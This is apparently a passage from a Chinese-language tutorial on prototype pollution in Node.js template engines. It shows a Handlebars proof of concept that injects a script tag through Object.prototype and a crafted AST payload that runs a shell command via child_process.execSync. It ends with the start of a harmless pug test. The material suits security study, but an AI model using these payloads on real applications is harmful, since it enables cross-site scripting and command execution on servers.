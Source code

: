 `Handlebar.compile` 函数将字符串转换为模板函数，并传递对象因子以供调用
```javascript
const Handlebars = require('handlebars');

Object.prototype.pendingContent = `<script>alert(origin)</script>`

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({"msg": "posix"}));
```
在这里，我们可以使用原型链污染来影响编译过程。
你可以插入任意字符串 `payload` 到 `Object.prototype.pendingContent` 中决定你想要的攻击。

![image](./asserts/漏洞-Handlebars-1.png)

构造 `payload`：
```json
{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}
```
##### pug
本地测试，代码如下
```javascript
const pug = require('pug');
const source = `h1= msg`;
var fn = pug.compile(source);
var html = fn({msg: 'It works'});
console.log(html);
```